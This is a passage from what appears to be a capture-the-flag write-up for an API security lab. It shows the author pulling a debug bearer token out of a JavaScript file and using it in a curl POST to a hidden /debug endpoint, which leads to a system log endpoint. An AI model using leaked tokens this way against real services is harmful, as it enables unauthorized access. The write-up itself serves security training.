 nah, its not giving us flag…

so i checked the js file again, and i was i need to send a post request on `/debug` end point

debug post request in curl using debug token found in /api.min.js

```python
curl -X POST [https://api-obscura.ac25.apisecuniversity.com/api/debug](https://api-obscura.ac25.apisecuniversity.com/api/debug) \
-H "Content-Type: application/json" \
-H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImRlYnVnIiwicm9sZSI6ImRlYnVnZ2VyIiwiaWF0IjoxNzQ3ODczOTEwLCJleHAiOjE3NTA0NjU5MTB9.VjFkiXQ0zCux6uG3eKuEqHB3yrgGMXmKvieAHhZotcQ" \
--data-raw '{"debug":true}'
```

or in burp. must add `Content-Type: application/json` other wise it won’t work

![image.png](images/image%2015.png)

got and endpoint of system log. after visiting it …
